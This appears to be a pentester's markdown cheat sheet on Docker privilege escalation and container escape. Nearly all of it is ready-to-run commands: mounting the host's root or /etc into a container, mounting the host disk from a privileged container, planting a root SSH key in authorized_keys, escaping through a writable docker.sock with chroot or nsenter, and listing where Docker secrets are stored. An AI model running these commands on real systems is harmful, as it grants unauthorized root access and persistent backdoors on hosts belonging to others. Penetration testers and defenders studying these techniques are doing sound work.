 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock


---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

![[Pasted image 20221115144437.png]]

![[Pasted image 20221115144455.png]]

```bash - kali
docker run -v /root:/mnt -it alpine
```

```bash - kali
docker run -v /etc/:/mnt -it alpine
```

```bash - kali
cd /mnt
```

```bash - kali
ls
```

#### Privileged

When a docker container is running in privileged mode and root access is acquired, escaping the container is then possible. We try to mount the / directory of the host, inside the docker container. But first, we need to execute the following command, in order to get the name of the partition that we are going to mount.

```bash - target
lsblk
```

![[Pasted image 20221115144518.png]]

Let's try to mount the partition sda2 into the directory /mnt .

```bash - target
mount /dev/sda2 /mnt -o loop6
```

```bash - target
ls -l /mnt
```

![[Pasted image 20221115144531.png]]

The / directory is mounted successfully. We create SSH keys for the host user root .

```bash - target
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
```

```bash - target
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```

```bash - target
cat /mnt/root/.ssh/id_rsa
```

We store the key in a file locally and name it id_rsa and give the appropriate permissions.

[[Port 22 - SSH  ~#id_rsa]]

![[Pasted image 20221115144550.png]]

#### /var/run/docker.sock is writable
```bash - kali
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
```

```bash - kali
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

#### Secrets
Try to see Docker secret locations or names:
```
$ docker secret ls
```

Linux Docker Secrets Locations:
```
/run/secrets/<secret_name>
```

Windows Docker Secrets Locations:
```
C:\ProgramData\Docker\internal\secrets
```

```
C:\ProgramData\Docker\secrets
```


---

Notice the hidden .dockerenv file.  Given that and the host name "0873e8062560", we are likely inside of a docker container.

![[Pasted image 20220331134954.png]]

```bash - target
fdisk -l
```

![[Pasted image 20220331135403.png]]

```bash - target
mkdir /mnt/own
```

```bash - target
mount /dev/sda1 /mnt/own
```

```bash - target
cd /mnt/own
```

```bash - target
cd root
```

```bash - target
ls -lah
```



